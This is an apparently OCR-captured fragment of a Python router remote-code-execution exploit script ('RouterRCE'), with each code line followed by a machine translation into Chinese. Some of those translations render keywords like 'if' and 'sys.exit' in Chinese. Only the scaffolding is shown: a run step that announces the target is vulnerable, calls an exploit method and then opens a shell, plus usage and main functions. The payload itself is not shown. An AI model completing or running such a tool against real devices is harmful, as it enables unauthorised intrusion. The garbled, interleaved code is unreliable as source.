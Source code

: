 return  
返回

print("Target is Vulnerable Sending Payload")  
print（“Target is Vulnerable Sending Payload”）

if not self.exploit():  
如果没有self.exploit（）：

exit("Exploitation Failed Something is wrong")  
exit（“Exploitation Failed Something is wrong”）

return self.shell()  
return self.shell（）

def usage(): def usage（）：

print(f"\[-\] {sys.argv\[0\]} http(s)://target\_url")  
print（f”\[-\] {sys.argv\[0\]} http（s）：//target\_url”）

def main(): 定义main（）：

if sys.version\_info\[0\] != 3:  
如果系统版本信息\[0\]！=第三章：

print("Use Python 3 to run this Script.")  
print（“使用Python 3运行此脚本。“）

sys.exit(\-1)  
系统退出（-1）

if len(sys.argv) < 2:  
如果len（sys.argv）< 2：

usage()  
usage（）

sys.exit(\-1)  
系统退出（-1）

RouterRCE(sys.argv\[1\]).run()  
RouterRCE（sys.argv\[1\]）.run（）

if \_\_name\_\_ == "\_\_main\_\_":  
如果\_\_名称\_\_ ==“\_\_主要\_\_"：

try:  
尝试：

main()  
主要（）

except KeyboardInterrupt:  
键盘中断除外：

print("\*CRT+C Received.\* ====> Aborting")  
print（“\*CRT+C已接收。\* =>正在中止”）

sys.exit(\-1)  
系统退出（-1）
